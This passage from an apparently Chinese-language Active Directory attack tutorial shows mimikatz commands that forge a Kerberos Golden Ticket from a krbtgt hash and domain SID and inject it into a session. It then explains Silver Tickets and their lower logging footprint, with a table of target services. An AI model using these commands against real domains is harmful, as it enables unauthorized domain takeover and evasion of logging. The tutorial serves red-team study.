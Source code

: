    ```powershell
   # kerberos::golden /user:需要伪造的域管理员用户名 /domain:demo.com /sid:域sid /krbtgt: krbtgt用户的Hash /ticket:ticket.kirbi
   kerberos::golden /user:administrator /domain:main.com /sid:S-1-5-21-2214894582-1205818508-3793940241 /krbtgt:73265a93b877df146cf06d08ffa673e8 /ticket:ticket.kirbi
   
   ```

   ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512143909.png)

   在当前目录下会生成一个`ticket.kirbi`

   ```powershell
   kerberos::purge   //先清空所有票据
   kerberos::ptt ticket.kirbi    //再将生成的票据注入域用户主机
   ```

   然后查看一下当前的票据内容

   ```powwershell
   kerberos::tgt
   ```

   ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512144450.png)

   对比一下之前的操作，当我们想看 DC下的共享目录的时候：拒绝访问

   ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512160102.png)

   更改凭证之后

   ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512160902.png)

## 11. SilverTicket/白银票据

**Silver Ticket**(白银票据) 不同于 Golden Ticket, Silver Ticket的利用过程是**伪造TGS**,通过已知的授权服务密码生成一张可以访问该服务的TGT。因为在票据生成过程中不需要使用KDC,所以可以绕过域控制器，很少留下日志。而Golden Ticket在利用过程中需要KDC颁发TGT,且在生成伪造的TGT 的20分钟内,TGS不会对该TGT 的真伪进行校验。



> 白银票据和黄金票据的区别：
>
> 1. 金票是由krbtgt账号的密码散列值加密的，利用伪造高权限任意服务访回权限的票据,从而获得域控制器权限，而银票是由特定的服务账号来伪造TGS，例如LDAP、 MSSQL、WinRM、 DNS、CIFS 等，范围有限，只能获取有限的权限。
> 2. 白银票据不经过KDC，因此白银票据日志相对于黄金票据要少，同时白银票据的日志都在目标服务器上，域控上不会有日志，更加隐蔽，但是白银票据的权限就不如黄金票据的权限了

和黄金票据不同的是，白银票据的针对性较强，没有金票的普适性，即拿到服务A的口令NTLM值只能伪造高权限的TGS票据，获得服务A的高权限访问，对服务B则完全无效。

| 应用服务类型                                | 需要的服务        |
| ------------------------------------------- | ----------------- |
| VMI                                         | HOST、RPCSS       |
| Powershell Remoting                         | HOST、HTTP        |
| WinRM                                       | HOST、HTTP        |
| Scheduled Tasks                             | HOST              |
| Windows File Share (CIFS)                   | CIFS              |
| LDAP operations                             | LDAP              |
| Windows Remote Server Administrations Tools | RPCSS、LDAP、CIFS |
